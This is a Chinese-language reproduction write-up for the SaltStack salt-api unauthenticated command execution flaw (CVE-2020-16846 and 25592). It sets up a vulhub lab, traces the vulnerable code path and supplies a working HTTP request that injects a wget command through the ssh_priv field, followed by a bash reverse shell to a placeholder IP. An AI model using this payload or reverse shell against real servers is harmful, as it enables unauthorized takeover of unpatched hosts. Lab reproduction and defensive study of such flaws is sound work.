



# SaltStack 未授权访问命令执行漏洞 CVE-2020-16846 25592

## 漏洞描述

2020年11月4日，SaltStack 官方发布了一则安全更新公告，其中CVE-2020-16846和CVE-2020-25592组合使用可在未授权的情况下通过salt-api接口执行任意命令。CVE-2020-25592允许任意用户调用SSH模块，CVE-2020-16846允许用户执行任意命令。salt-api虽不是默认开启配置，但绝大多数SaltStack用户会选择开启salt-api，故存在较高风险。

## 漏洞影响

<a-checkbox checked>SaltStack Version 3002</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3001.1, 3001.2</a-checkbox></br>

<a-checkbox checked>SaltStack Version 3000.3, 3000.4</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2019.2.5, 2019.2.6</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2018.3.5</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2017.7.4, 2017.7.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.11.3, 2016.11.6,2016.11.10</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2016.3.4, 2016.3.6,2016.3.8</a-checkbox></br>

<a-checkbox checked>SaltStack Version 2015.8.10, 2015.8.13</a-checkbox></br>

## 环境搭建

```shell
git clone https://github.com/vulhub/vulhub.git
cd vulhub/saltstack/CVE-2020-16846
docker-compose up -d
```

## 漏洞复现

salt-api REST接口默认使用cherrypy框架，从run接口的实现上可以看出通过client参数动态调用NetapiClient类中的方法。

文中指定代码位置采用以下约定 `FileLocation:Classname.method()`

`salt/netapi/init.py:NetapiClient.run()`




low参数为外部传入参数，salt.utils.args.format_call方法将参数赋值给`kwargs。`

当client参数为ssh时，动态调用`salt/netapi/init.py:NetapiClient.ssh()`, 该方法未采用任何鉴权。

`salt/netapi/init.py:NetapiClient.ssh()`


跟进，路径如下：

`salt/netapi/init.py:NetapiClient.ssh()⇒salt/client/ssh/client.py:SSHClient.cmd_sync()⇒salt/client/ssh/client.py:SSHClient._prep_ssh()`

`salt/client/ssh/client.py:SSHClient._prep_ssh()`





该方法将kwargs外部可控参数更新值opts变量，该变量可以理解为SaltStack系统的环境变量，使用该变量初始化salt.client.ssh.SSH。

`salt/client/ssh/init.py:SSH.__init__()`


priv的值从opts变量中获取，并调用`salt.client.ssh.shell.gen_key()`方法

`salt/client/ssh/shell.py:gen_key()`


```shell
POST /run HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/x-yaml
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 109

token=12312&client=ssh&tgt=*&fun=a&roster=whip1ash&ssh_priv=aaa|wget http://xxx.dnslog.cn
```


反弹shell的方法，先写 bash文件，内容为反弹shell语句，使用wget下载到目标中

```bash
#!/bin/sh
bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1'
```


监听端口，使用 `/bin/bash` 运行文件 反弹shell



## 参考文章

<a-alert type="success" message="https://mp.weixin.qq.com/s/R8qw_lWizGyeJS0jOcYXag" description="" showIcon>
</a-alert>
<br/>